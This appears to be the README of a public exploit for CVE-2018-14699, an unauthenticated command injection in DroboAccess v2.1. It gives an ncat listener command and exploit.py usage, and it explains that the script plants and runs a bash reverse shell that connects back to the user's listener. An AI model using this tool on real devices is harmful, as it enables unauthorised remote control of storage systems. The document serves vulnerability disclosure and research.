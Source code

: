 # CVE-2018-14699
### UnAuth Command injection in the enable_user function of DroboAccess v2.1
-----
# Usage: 
- To use First startup a listener (ncat -nvlp 1337)
- Next run the exploit

  - example: exploit.py -t 192.168.1.122:8080 -l 192.168.1.2 -p 1337
  
  '-t', '--target', help='host for exploitation, ex. 192.168.1.122:8080',required=True
  
  '-l', '--listener-ip', help='listener IP', required=True
  
  '-p', '--port', help='port number of the listener', required=True

# Description:

CVE-2018-14699 is a blind command injection vulnerability in DroboAccess v2.1. The issue is here because the enable_user function takes the username parameters as user input then calls a dependency that executes a shell directly without any sanatization. I clearify this as there doesn't appear to be another reference of this anywhere. So again this is not a vulnerability in Drobo 5N2 rather a vulnerability in DroboAccess. This has been tested on a B810n with success.

# Details

The script will make an attempt to echo a script to a file called revshell in the current working directly. If this is successful, it will then attempt to call it with bash as the executable, making a connection back to your listener with bash!

# Resources:

- https://blog.securityevaluators.com/call-me-a-doctor-new-vulnerabilities-in-drobo5n2-4f1d885df7fc
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-14699
